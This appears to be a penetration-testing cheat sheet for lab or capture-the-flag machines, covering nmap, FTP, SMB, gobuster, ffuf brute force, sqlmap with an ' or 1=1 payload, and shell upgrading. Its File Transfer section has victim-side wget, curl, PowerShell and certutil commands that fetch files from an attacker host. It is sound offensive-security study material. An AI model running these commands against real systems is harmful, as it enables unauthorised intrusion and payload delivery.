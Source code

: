 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)

## Port Scanning <a name='psc'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `-- open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out
````

- To find subdomains:
```bash
#wordlist example: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

### Python3

### Impackets

```bash 
# between *nix os

# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>

#===========================================================#

# from linux to windows

# on the attacker machine
# creates a anonymous login
sudo smbserver.py <share-name> <linux-path> -smb2support

# on the victim machine
copy \\<attacker-ip>\<share-name>\<file> <copy-path-in-windows>
# mount the share in windows
net use x: \\<attacker-ip>\<share-name> /user:<user-name> <password>
copy x:\<file> <copy-path-in-windows>

# from external url
# sometimes fails
powershell -c (new-object System.Net.WebClient).DownloadFile('http://<attacker-ip>/<file>','<download-path-in-windows>')

# works mostly
#@alias
iwr -uri 'http://<attacker-ip>/<file>' -o '<download-path-in-windows>'
#@cmdlet
powershell.exe -command Invoke-WebRequest -Uri 'http://<attacker-ip>/<file>' -OutFile '<download-path-in-windows>'

# using certutil
certutil -urlcache -f 'http://<attacker-ip>/<file>' '<download-path-in-windows>'
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

### Python
- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm
```

## File searching <a name='fs'></a>

### find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```